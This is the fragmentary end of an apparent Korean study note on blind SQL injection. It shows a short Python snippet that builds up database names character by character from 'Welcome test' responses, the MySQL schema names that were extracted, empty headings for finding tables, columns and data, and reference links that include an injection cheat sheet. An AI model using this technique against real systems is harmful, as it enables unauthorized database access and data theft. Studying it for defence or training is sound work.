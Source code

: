 ```py
            if REQUEST.text == 'Welcome test': DATABASE_NAME += s
    print(f'{DATABASE_NAME}')
```

결과는 다음과 같다.

	information_schema
	mysql
	test
	performance_schema

## **테이블 이름 확인**
## **컬럼 이름 확인**
## **데이터 확인**


https://velog.io/@yu-jin-song/DB-SQL-%EC%9D%B8%EC%A0%9D%EC%85%98SQL-Injection
https://m.blog.naver.com/lstarrlodyl/221837243294
https://choco4study.tistory.com/10
https://www.lanian.co.kr/entry/Error-Based-SQL-Injection
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
